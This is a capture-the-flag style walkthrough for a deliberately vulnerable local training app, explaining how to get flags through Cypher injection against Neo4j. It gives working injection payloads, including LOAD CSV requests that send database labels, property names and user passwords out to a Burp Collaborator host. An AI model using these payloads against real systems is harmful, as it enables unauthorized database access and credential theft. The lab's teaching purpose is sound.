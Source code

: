 ## Neo4j 

In part, this application tests your knowledge of Neo4j and Cypher Query Language. Below you will find hints and steps for full walkthroughs for each level and the BONUS flags. The Walkthrough steps focus on the use of BurpSuite Pro, but for Easy, Medium, and Hard levels, BurpSuite Community and Zap can be used as well. For the BONUS flags, you will need one of the following:

1. Burp Collaborator
2. Your own webserver where you can see your access logs
    * This could be a server you already own as long as you are able to view the access logs
    * This could be a server you spin up with docker just for this exercise as long as you can view the acces logs

### EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error that includes the Cypher query syntax? 
  3. Can you modify the request to include the Cypher equivalent of sql injection's ```x' or 'x'='x```?
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  3. Edit ```person=Tom+Hanks``` to ```person=xxxxx"``` in the request body.
  4. Forward the request.
  5. Back in your browser, observe the query in the error message.
  6. Send another request and intercept it.
  7. Edit the request: Change ```person=Tom+Hanks``` to ```person=Tom+Hanks" or person.name=~".*```.
  8. Forward the request.
  9. Back in your browser look for the FLAGs.
</details>

### MEDIUM 

<details>
  <summary>Hints</summary>

  1. Modify the request so the application displays an error with the Cypher query. 
  2. The payload here depends on understanding Cypher Query Language as well as understanding how application code might rely on variable names used in the ```return``` portion of the query. 
</details>

<details>
  <summary>Walkthrough</summary>

  There are multiple ways to get the flags at this level, one of which does not require Cypher Injection; below is one that does, and requires some knowledge of Neo4j and Cypher Query Language.

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Select anything in the second dropdown.
  3. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  4. Edit ```person=Tom+Hanks``` to ```person=Tom+Hanks"``` in the request body.
  5. Forward the request.
  6. Back in your browser, observe the query in the error message.
  7. Send another request and intercept it.
  8. Edit the request: Change ```person=Tom+Hanks``` to ```person=Tom+Hanks"})-[role]-(movie) return person,role,movie//```.
  9. Create a text file containing the list of names from the select dropdown.
  10. Use Burp intruder to replace ```Tom+Hanks``` with the names from the file. 
  11. Find results in intruder that contain the text FLAG.
</details>

### HARD

<details>
  <summary>Hints</summary>

  1. There is no Cypher Injection attack at the Hard level 
  2. Burp Intruder and info you have gathered in the Easy and Meidum levels will help you at this level. 
</details>

<details>
  <summary>Walkthrough</summary>

  1. Turn Intercept off in Burp.
  2. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  3. Select anything in the second dropdown and click go.
  4. In Burp, find this request and send it to intruder.
  5. In intruder, select the value for ```person``` and the value for ```role``` as your attack vectors.
  6. Select Cluster Bomb as your Attack Type.
  7. Use the list of "persons" you used in Medium as the payload for ```person```.
  8. Use a list you've gathered from the previous 2 steps as the payload for ```role```.
  9. Click ```start attack```.
  10. Search for ```FLAG``` in the results to find the 3 flags at this level.
</details>

### BONUS  

<details>
  <summary>Hints</summary>

  1. To get the BONUS flags, you will need either:
    * Your own webserver where you may monitor access logs 
    * [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 
  2. You will need to understand how to use [Neo4j's db.labels() and db.propertyKeys() procedures](https://Neo4j.com/docs/cypher-manual/current/clauses/call/) to map this database.
  3. You will need to understand how to use [Neo4j's LOAD CSV functionality](https://Neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests.
  4. You will need to understand how to use the two together to [extract information from Neo4j](https://www.sidechannel.blog/en/the-cypher-injection-saga/).
  5. Focus on a ```person``` who had flags associated with their records already, like the ```Tom```s
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2blabel+AS+r+return+person//&role=ACTED_IN&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&role=ACTED_IN&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if results are returned, a property has been matched to a label. (We use the variable ```movie``` in these payloads because that's the variable the application code expects. Changing that would render no results and may cause errors instead of useful information)

```
person=Tom Cruise"})-[role]-(movie:LABEL)+WHERE+movie.PROPERTY+IS+NOT+null+return+person,role,movie//
```

For example, these should not return data because the User nodes do not have a property called ```notrealproperty``` or ```tagline```.

```
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.notrealproperty+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
```

And this should return data because the Movie nodes do have properties called ```tagline``` and ```released``` although they never show up in our web application

```
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.released+IS+NOT+null+return+person,role,movie//
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs for requests. 

```
person=Tom+Cruise"})-[role]->(movie:LABEL)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.PROPERTY+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

For example, we should now know node ```User``` has a property ```title``` so this should send information to collaborator or your web server

```
person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.title+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
